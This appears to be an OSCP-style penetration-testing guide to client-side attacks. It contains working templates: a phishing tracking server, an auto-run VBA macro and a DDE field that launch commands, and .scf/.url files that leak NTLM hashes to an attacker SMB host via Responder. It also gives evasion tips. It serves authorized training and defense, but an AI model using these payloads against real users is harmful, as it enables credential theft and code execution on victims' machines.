




## Introduction

Client-side attacks target the user, their applications, or their local environment rather than directly exploiting server-side vulnerabilities. In OSCP labs and real-world authorized engagements, client-side techniques are often required when network perimeter defenses are strong, but user interaction can be leveraged. This guide covers three critical client-side attack vectors:
1. **Phishing as Target Reconnaissance** – Using email campaigns to map internal infrastructure, identify software versions, and gather intelligence.
2. **Exploiting Microsoft Office** – Weaponizing macros, DDE fields, and template injection to execute code.
3. **Abusing Windows Library Files** – Leveraging `.scf`, `.url`, `.library-ms`, and `.searchConnector-ms` files to trigger authentication requests or execute commands.

> {: .prompt-warning }
> **Educational Purpose Only:** All techniques described are for authorized penetration testing, OSCP lab practice, and defensive research. Unauthorized use against systems you do not own or have explicit written permission to test is illegal and unethical.

---

## Client-Side Attack Lifecycle



---

## 1. Phishing as Target Reconnaissance

Phishing is rarely just about stealing credentials. In structured engagements, phishing campaigns are designed to **map internal networks**, **identify installed software**, **discover security controls**, and **profile user behavior**.

### Reconnaissance Phishing Flow



### Step-by-Step: Setting Up Recon Phishing

**1. Deploy Tracking Server (Linux)**
```bash
# Install lightweight HTTP server with logging
sudo apt install python3-flask
cat > tracker.py << 'EOF'
from flask import Flask, request, jsonify
import datetime

app = Flask(__name__)

@app.route('/track', methods=['GET'])
def track():
    data = {
        "timestamp": datetime.datetime.now().isoformat(),
        "ip": request.remote_addr,
        "user_agent": request.headers.get('User-Agent'),
        "referer": request.headers.get('Referer'),
        "accept_language": request.headers.get('Accept-Language')
    }
    with open("recon_log.txt", "a") as f:
        f.write(f"{data}\n")
    return "", 200, {'Content-Type': 'text/html'}

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
EOF
python3 tracker.py
```
**Output:**
```text
 * Serving Flask app 'tracker'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://192.168.1.50:80
Press CTRL+C to quit
```

**2. Craft Email with Tracking Pixel**
```html
<!-- recon_email.html -->
<html>
<body>
  <p>Please review the attached quarterly report.</p>
  
</body>
</html>
```

**3. Analyze Collected Recon Data**
```bash
cat recon_log.txt
```
**Output:**
```text
{'timestamp': '2024-02-20T14:22:10.123456', 'ip': '10.10.14.25', 'user_agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36', 'referer': None, 'accept_language': 'en-US,en;q=0.9'}
{'timestamp': '2024-02-20T14:25:33.654321', 'ip': '10.10.14.30', 'user_agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0', 'referer': None, 'accept_language': 'en-US,en;q=0.5'}
```

**Recon Insights Extracted:**
- Internal IP range: `10.10.14.0/24`
- OS: Windows 10/11 (NT 10.0)
- Browsers: Chrome 120, Firefox 121
- Security posture: No proxy headers detected → direct internet access likely
- User behavior: Images enabled → tracking effective

> {: .prompt-tip }
> **OSCP Focus:** Phishing recon helps you choose the right exploit path. If users run Outlook with macros enabled, pivot to Office exploitation. If they use webmail with strict sandboxing, focus on client-side browser exploits or library file abuse.

---

## 2. Exploiting Microsoft Office

Microsoft Office remains a primary client-side attack vector due to its ubiquity, complex feature set, and legacy compatibility requirements. Common techniques include VBA macros, DDE (Dynamic Data Exchange), and template injection.

### Office Exploitation Flow



### Step-by-Step: VBA Macro Execution (Educational)

**1. Create Macro-Enabled Document**
```bash
# Install LibreOffice or use Windows with Office
# Open Word → Developer Tab → Visual Basic
```

**2. Insert Educational VBA Payload**
```vba
Sub AutoOpen()
    ' Educational example: Demonstrates execution flow
    ' In authorized engagements, replace with approved testing payload
    Dim cmd As String
    cmd = "powershell -NoProfile -ExecutionPolicy Bypass -Command ""Write-Host 'Macro executed successfully'"""
    Shell cmd, vbHide
End Sub
```

**3. Save & Deliver**
- Save as `.docm` (Macro-Enabled Document)
- Distribute via authorized channel
- User enables content → Macro executes

**4. Expected Output (PowerShell Console)**
```text
Macro executed successfully
```

### Step-by-Step: DDE Field Code Execution

DDE bypasses macro security settings by using field codes instead of VBA.

**1. Insert DDE Field in Word**
```text
Press Ctrl+F9 → Type: DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"
Press F9 to update field
```

**2. Save as `.docx` (No macro warning)**
- User opens → Clicks "Update" or enables content
- Command executes

**3. Expected Output**
```text
Calculator application launches
Command prompt remains open with /k flag
```

> {: .prompt-tip }
> **Modern Mitigations:** Office 365 blocks macros by default, Protected View isolates untrusted files, and AMSI scans PowerShell commands. In OSCP labs, these are often disabled or misconfigured to allow practice. Always verify lab settings before testing.

---

## 3. Abusing Windows Library Files

Windows library files (`.library-ms`, `.searchConnector-ms`, `.scf`, `.url`, `.lnk`) are XML or INI-based configuration files that Windows Explorer parses automatically. They can be weaponized to trigger authentication requests, execute commands, or harvest credentials.

### Library File Abuse Flow



### Step-by-Step: `.scf` File for NTLM Capture

**1. Create Malicious `.scf` File**
```ini
[Shell]
Command=2
IconFile=\\192.168.1.50\share\test.ico
[Taskbar]
Command=ToggleDesktop
```

**2. Start Responder (Linux)**
```bash
sudo responder -I eth0 -dwv
```
**Output:**
```text
[+] Listening for events...
[SMB]   NTLMv2-SSP Client   : 10.10.14.25
[SMB]   NTLMv2-SSP Username : CORP\jdoe
[SMB]   NTLMv2-SSP Hash     : jdoe::CORP:1122334455667788:99AABBCCDDEEFF00:0101000000000000...
```

**3. Deliver & Trigger**
- Place `.scf` file in shared folder or email attachment
- User opens folder → Windows attempts to load icon from `\\192.168.1.50\share\test.ico`
- NTLM hash captured by Responder

### Step-by-Step: `.url` File for WebDAV/SMB Trigger

**1. Create Malicious `.url` File**
```ini
[InternetShortcut]
URL=file://\\192.168.1.50\share\
IconFile=\\192.168.1.50\share\icon.ico
```

**2. Start SMB Server (Impacket)**
```bash
impacket-smbserver share /tmp/smb_share -smb2support
```
**Output:**
```text
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] SMB2 Negotiate Protocol Request received
[*] AUTHENTICATE_MESSAGE (CORP\jdoe,CORP)
[*] User CORP\jdoe authenticated successfully
```

**3. Trigger**
- User double-clicks `.url` file or folder refreshes
- Windows resolves `IconFile` → SMB authentication attempt
- Hash captured or session established

> {: .prompt-tip }
> **OPSEC Note:** Library file abuse relies on Windows Explorer behavior. Modern EDRs flag suspicious `.scf`/`.url` files in user directories. Use only in authorized labs. Always clear artifacts after testing.

---

## Detection & OPSEC Considerations

| Technique | Defender Detection | Attacker OPSEC Adaptation |
|-----------|-------------------|---------------------------|
| Phishing Recon | Email gateway filters, proxy logs, EDR process monitoring | Use legitimate domains, rotate tracking endpoints, limit beacon frequency |
| Office Macros | AMSI, macro blocking, Protected View, AppLocker | Use DDE/template injection, obfuscate payloads, leverage signed binaries |
| Library Files | Windows Event ID 4624/4625, SMB audit logs, EDR file monitoring | Use WebDAV over HTTPS, limit trigger frequency, clean up files post-execution |

### Critical OPSEC Checklist
- [ ] Verify lab scope & rules of engagement
- [ ] Use isolated networks for testing
- [ ] Avoid production credentials or real user data
- [ ] Log all actions for reporting & reproducibility
- [ ] Clean up artifacts (files, servers, logs) after testing
- [ ] Document detection triggers for defensive handoff

---

## References

- [Microsoft — Office Security Features](https://learn.microsoft.com/en-us/microsoft-365/security/office-365-security/)
- [Microsoft — Windows Library Files Documentation](https://learn.microsoft.com/en-us/windows/win32/shell/library-files)
- [OffSec — OSCP Exam Guide (Client-Side Section)](https://www.offsec.com/courses/pen-200/)
- [HackTricks — Client-Side Attacks](https://book.hacktricks.xyz)
- [PayloadsAllTheThings — Office & Phishing](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Responder — NTLM Capture Tool](https://github.com/lgandx/Responder)
- [Impacket — SMB/NTLM Utilities](https://github.com/fortra/impacket)
- [MITRE ATT&CK — Client-Side Execution](https://attack.mitre.org/tactics/TA0001/)

---


> {: .prompt-warning }
> **Legal & Ethical Notice:** All techniques described are for educational purposes, authorized penetration testing, and OSCP lab practice. Unauthorized use against systems you do not own or have explicit written permission to test violates computer fraud laws globally. Always operate within scope, maintain audit trails, and prioritize defensive knowledge transfer.
````
